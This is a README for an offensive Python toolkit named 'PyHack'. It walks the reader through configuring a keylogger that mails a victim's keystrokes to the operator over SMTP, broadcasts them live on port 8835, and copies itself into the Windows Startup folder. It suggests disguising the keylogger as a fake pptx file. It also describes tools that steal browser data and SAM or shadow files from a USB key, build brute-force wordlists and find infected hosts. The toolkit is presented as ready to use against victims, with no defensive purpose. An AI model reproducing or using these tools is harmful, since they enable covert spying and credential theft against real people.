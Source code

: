 # PyHack
KEYLOGGER :

Keylogger is, obviously a keylogger. feel free to rename it, make a windows executable, false pptx file or whatever you want. This keylogger will send you emails of whatever the victim is tiping and, if you are in the same private network, provide a "live keylogger feature wich allows you to see what the vitcim is typing in live. 

This keylogger broadcasts the live on the port 8835, feel free to change it on the line :

self.socket.bind(('',8835))

Just modify the

shutil.copyfile("{}/keylogger.exe".format(os.getcwd()),"C:\\Users\\{}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\keylogger.exe".format(getpass.getuser()))


line by removing keyllogger.exe to the file name. this line will copy the script itself on the startup file of windows and make it start at each startup of the computer.
please also modify these line with your own email address.


msg['From'] = "exemple@gmail.com"
msg['To'] = COMMASPACE.join("exemple@gmail.com")

smtp.login("exemple@gmail.com","exemple_password")
smtp.sendmail("exemple@gmail.com","exemple@gmail.com",msg.as_string())

and if you are not using gmail, please modify the smtp server addres on the line :

smtp = smtplib.SMTP('smtp.gmail.com')


KEYLOGGER_RECEVER : 

Keylogger recever is a script you use in the same private network than your vitctim's computer to access the live keylogger. But to access the live, you will need the local ip address of the vitctim's computer. use the "virus_scanner" script to perform a local network scan and get the ip address. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. 

VIRUS_SCANNER :

Virus scanner is a script wich perform a network scan and show what ip addresses are infected. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. This script may takes about 70/120 s to scan the entire network.

DATA CATCHER:

Data catcher is a script made to be run from an USB key, it simply copy copy all the sensitive data like Browsers data and SAM file from the computer to the USB key. Will not work if the app is not on her default installation path. Only the shadow file will be stolen on a linux machine.

WORDLIST_MAKER:

Simple wordlist maker, to make more specific bruteforce attacks.

DHCP SCANNER:

Simple script which discover all the hosts up of yoour network and their hostnames, you can pass "all" in object creation argument or a range of IP.

DNS_SNIFFER:

(needs scapy, to install it, simply use python -m pip install scapy[complete])
Simple network sniffer which stores all the trafic in a pcap file created on the root, but the script display just the DNS requests in the console for a better view of the traffic.

